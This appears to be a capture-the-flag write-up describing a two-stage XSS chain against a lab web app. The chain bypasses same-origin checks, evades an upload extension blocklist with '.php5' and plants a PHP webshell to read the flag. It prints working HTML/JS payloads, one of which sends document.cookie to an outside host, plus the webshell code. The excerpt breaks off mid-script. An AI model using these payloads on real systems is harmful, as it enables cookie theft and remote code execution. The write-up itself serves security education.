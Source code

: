 It took us quite a while to find out how the pretty simple way to bypass this.

We are gonna use two XSS stages. First we are

1. Make bot visit
   `http://10.13.37.13/index.php?page=print&url=(base64 http://10.13.37.13.f0rki.at/stage1.html)`
2. `stage1.html` redirects to
   `http://127.0.0.1/index.php?page=print&url=(base64 http://10.13.37.13.f0rki.at/stage2.html )`
   this way we change the origin back to `127.0.0.1` and can perfrom a `POST`
   request with violating the same-origin policy.
3. `stage2.html` payload makes an ajax request to
    `http://127.0.0.1/admin.php?page=upload` to upload a file.

The file upload code disallowed certain file extensions
```php
if($extension == '' || $extension == 'php' || $extension == 'htaccess' || $extension == 'pl' || $extension == 'py' || $extension == 'c' || $extension == 'cpp' || $extension == 'ini' || $extension == 'html') {
```

Fortunately the `.php5` extension was not part of it so we just used that.

4. Uploade file with `.php5` extension and visit
   `http://10.13.37.13/uploads/file_with_more_than_twelve_chars.php5`
   to execute the webshell
5. Executing `find / -name *flag* | xargs cat` revealed the flag in `/flag`
   `DCTF{5a42e723159e537443b99ba7f95fbe04}`



Here is the `stage1.html` we used. Including some diagnostics exfiltrated via
`img` tags.

```html
<script>
document.write("<img src=\"http://f0rki.at/stage1/" + document.cookie + "-" + window.location + "\" />");

window.location = "http://127.0.0.1/?page=print&url=aHR0cDovLzEwLjEzLjM3LjEzLmYwcmtpLmF0L3N0YWdlMi5odG1s";
</script>
```

Here is the `stage2.html` we used in the end. We had a couple of different
versions of the payload until we got it right.

```html
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>

<script>
document.write("<img src=\"http://f0rki.at/stage2/" + window.location + "\" />");

/*
<form method="post" enctype="multipart/form-data">
            Image: <input type="file" name="file" id="file">
            <input type="submit" value="Submit" name="submit" />
        </form>
*/

var content = "<?php echo system($_REQUEST['cmd']) ?>";
var blob = new Blob([content], { type: "text/plain" });
var data = new FormData();
data.append('submit', "Submit");
data.append('file', blob, "ozee2bai3weizohQuahCung4iQu4neeYXXX.php5");

jQuery.ajax({
    url: '/admin.php?page=upload',
    data: data,
    cache: false,
```